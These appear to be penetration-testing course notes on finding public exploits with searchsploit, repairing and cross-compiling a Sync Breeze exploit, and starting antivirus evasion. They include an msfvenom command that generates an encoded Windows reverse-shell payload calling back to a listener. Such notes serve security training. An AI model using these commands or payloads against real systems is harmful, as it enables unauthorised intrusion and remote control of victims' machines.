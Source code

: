## Locating Public Exploits

```bash
searchsploit remote smb microsoft windows
searchsploit "Sync Breeze Enterprise 10.0.28"

searchsploit -x 50420

searchsploit -m 42031
searchsploit -m windows/remote/48537.py
```

```bash
grep Exploits /usr/share/nmap/scripts/*.nse
nmap --script-help=clamav-exec.nse
```

## Fixing Exploits

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.4 LPORT=443 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
```

Modify the return address

```C
unsigned char retn[] = "\x83\x0c\x09\x10"; // 0x10090c83
```

### Cross-Compiling Exploit Code

* -lws2_32: find the **winsock** library

```bash
sudo apt install mingw-w64

i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32
```

```bash
wine syncbreeze_exploit.exe
```

# Antivirus Evasion

VirusTotal, **AntiScan.Me**

* -b: dump file's binary representation

```bash
xxd -b malware.txt
```

-p flag outputs a plain hexdump

```bash
xxd -p lib_mysqludf_sys.so | tr -d '\n' > lib_mysqludf_sys.so.hex
```
